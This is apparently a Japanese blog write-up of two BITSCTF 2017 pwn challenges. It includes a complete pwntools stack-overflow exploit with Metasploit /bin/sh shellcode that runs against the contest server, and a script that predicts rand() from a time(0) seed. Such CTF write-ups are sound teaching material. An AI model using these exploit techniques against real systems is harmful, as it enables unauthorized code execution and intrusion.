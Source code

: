 ```yaml
---
title: BITSCTF writeup
date: 2017-02-05 21:15:00+0900
tags: CTF
---
```


[BITSCTF 2017](https://bitsctf.bits-quark.org/) に一人チーム [poepoe](https://bitsctf.bits-quark.org/team/135) でこっそり参加. 50 points で 166 位でした.

キャンプ以来少しずつ勉強してきた pwn の力試しにと登録したのだけど, 開始直後は経験のないジャンルしかなくてすぐ諦めてしまっていた.  
けれどもたまたま今日の夕方見たら2つ追加されてたので急いで解いた.

<!--more-->

## pwn

### Command\_Line <small>(20pt)</small>

x86-64 の ELF.

    $ file pwn1
    pwn1: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=af1191f6192afa5c46c4146c085b0d85925a28ce, not stripped
    
    $ gdb pwn1
    Reading symbols from pwn1...(no debugging symbols found)...done.
    gdb-peda$ checksec 
    CANARY    : disabled
    FORTIFY   : disabled
    NX        : disabled
    PIE       : disabled
    RELRO     : Partial

`main()` 関数を見るとこんな感じ.  
親切にもバッファのアドレスを教えてくれた後, `scanf("%s")` でそこに入力を読み取ってるだけのプログラムだった.

    $ r2 -A pwn1
    [x] Analyze all flags starting with sym. and entry0 (aa)
    [x] Analyze len bytes of instructions for references (aar)
    [x] Analyze function calls (aac)
    [ ] [*] Use -AA or aaaa to perform additional experimental analysis.
    [x] Constructing a function name for fcn.* and sym.func.* functions (aan))
     -- Ilo ni li pona li pali e lipu. mi wile e ni: sina kama jo e musi
    [0x00400470]> e asm.nbytes = 0
    [0x00400470]> pdf @ main
                ;-- main:
    / (fcn) sym.main 63
    |   sym.main ();
    |           ; var int local_10h @ rbp-0x10
    |              ; DATA XREF from 0x0040048d (entry0)
    |           0x00400566      push rbp
    |           0x00400567      mov rbp, rsp
    |           0x0040056a      sub rsp, 0x10
    |           0x0040056e      lea rax, qword [rbp - local_10h]
    |           0x00400572      mov rsi, rax
    |           0x00400575      lea rdi, qword str.0x_lx_n                 ; 0x400634 ; str.0x_lx_n ; "0x%lx." @ 0x400634
    |           0x0040057c      mov eax, 0
    |           0x00400581      call sym.imp.printf                       ; int printf(const char *format)
    |           0x00400586      lea rax, qword [rbp - local_10h]
    |           0x0040058a      mov rsi, rax
    |           0x0040058d      lea rdi, qword 0x0040063b                  ; 0x40063b ; "%s"
    |           0x00400594      mov eax, 0
    |           0x00400599      call sym.imp.__isoc99_scanf               ; int scanf(const char *format)
    |           0x0040059e      mov eax, 0
    |           0x004005a3      leave
    \           0x004005a4      ret

`scanf()` で読み込む文字数等を指定していないので Stack buffer overflow が起こせる. Canary も NX bit もないので, リターンアドレスを書き換えて流し込んだシェルコードに飛ばして解いた. 接続がすぐ切れてしまうので, 予め `ls` してファイル名を確認してスクリプトから `cat flag` した.

```python
from pwn import *

# $ gdb pwn1
# Reading symbols from pwn1...(no debugging symbols found)...done.
# gdb-peda$ r
# 0x7fffffffde50
# AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH
#
# Program received signal SIGSEGV, Segmentation fault.
# (...)
# gdb-peda$ x/gx $rsp
# 0x7fffffffde68:	0x413b414144414128
# gdb-peda$ patto 0x413b414144414128
# 4700422384665051432 found at offset: 24
padding = 24

# $ msfconsole
# msf > use payload/linux/x64/exec 
# msf payload(exec) > generate -b '\x00' -t python -o CMD=/bin/sh
shellcode =  ''
shellcode += '\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d\x05'
shellcode += '\xef\xff\xff\xff\x48\xbb\x53\xf2\xa1\x2c\x3c\xa0\x78'
shellcode += '\x1a\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4'
shellcode += '\x39\xc9\xf9\xb5\x74\x1b\x57\x78\x3a\x9c\x8e\x5f\x54'
shellcode += '\xa0\x2b\x52\xda\x15\xc9\x01\x5f\xa0\x78\x52\xda\x14'
shellcode += '\xf3\xc4\x34\xa0\x78\x1a\x7c\x90\xc8\x42\x13\xd3\x10'
shellcode += '\x1a\x05\xa5\xe9\xa5\xda\xaf\x7d\x1a'

# r = process('./pwn1')
r = remote('bitsctf.bits-quark.org', 1330)

addr_buffer = int(r.readline()[:-1], 16)
log.info('addr_buffer: 0x%x' % addr_buffer)

payload = ''
payload += 'A' * padding
payload += p64(addr_buffer + padding + 8)
payload += shellcode
r.sendline(payload)

# r.interactive()
r.sendline('cat flag')
log.success('Flag: %s' % r.recv())
```

    $ python2 exploit.py
    [+] Opening connection to bitsctf.bits-quark.org on port 1330: Done
    [*] addr_buffer: 0x7fffffffe620
    [+] Flag: BITSCTF{b451c_57r416h7_f0rw4rd_5h3llc0d1n6}
    [*] Closed connection to bitsctf.bits-quark.org port 1330

### Random Game <small>(30pt)</small>

同じく x86-64 の ELF.

    $ file third
    third: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6c26456447632034ed1ad87d3161adcf72daa6c3, not stripped

`main()` 関数の処理はだいたいこんな感じだった.

1. `srand(time(0))`
2. `rand() & 0xf`
3. `scanf("%d")` して 2 の値と比較
  - 違ってたら `exit(0)`
4. 2-3 を30回繰り返す
5. `./flag` を `open()` -> `read()` -> `printf()`

少し悩んだけど, 乱数の seed に `time(0)` を使ってるので, サーバ側の時間がわかれば乱数を推測できそうなのに気づく.

問題は先程のと同じサーバで動いていると予測. まずは先程のスクリプトを使って `date +%s` を実行し, 手元の環境の時間と大きなズレがないことを確認.  
(注: この結果は後から実行したもの)

    $ date +%s ; python2 exploit.py
    1486292363
    [+] Opening connection to bitsctf.bits-quark.org on port 1330: Done
    [*] addr_buffer: 0x7fffffffe620
    [+] date +%s: 1486292363
    [*] Closed connection to bitsctf.bits-quark.org port 1330

あとは問題と同じ方法で30個の乱数を作る C のコードと問題を解くスクリプトを書いて終わり.

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main() {
  srand(time(0));

  for (int i = 0; i < 30; ++i) {
    printf("%d ", rand() & 0xf);
  }
}
```

```ruby
require 'socket'

s = TCPSocket.new 'bitsctf.bits-quark.org', 1337

randnums = `./rand30`.split

30.times do |n|
  print s.gets 'round : '
  s.puts randnums[n]
  puts randnums[n]
end

puts s.gets
```

    $ clang rand30.c -o rand30
    
    $ ruby solve.rb
    your number for 1 round : 8
    your number for 2 round : 4
    your number for 3 round : 9
    your number for 4 round : 10
    your number for 5 round : 9
    your number for 6 round : 4
    your number for 7 round : 6
    your number for 8 round : 6
    your number for 9 round : 3
    your number for 10 round : 5
    your number for 11 round : 15
    your number for 12 round : 13
    your number for 13 round : 12
    your number for 14 round : 3
    your number for 15 round : 15
    your number for 16 round : 2
    your number for 17 round : 7
    your number for 18 round : 5
    your number for 19 round : 6
    your number for 20 round : 8
    your number for 21 round : 14
    your number for 22 round : 2
    your number for 23 round : 12
    your number for 24 round : 12
    your number for 25 round : 14
    your number for 26 round : 8
    your number for 27 round : 13
    your number for 28 round : 4
    your number for 29 round : 3
    your number for 30 round : 13
    congrats you are rewarded with the flag BITSCTF{54m3_533d_54m3_53qu3nc

なぜか Flag が最後まで送られてこない... 最後のワードを補完して `BITSCTF{54m3_533d_54m3_53qu3nc3}` で通った.
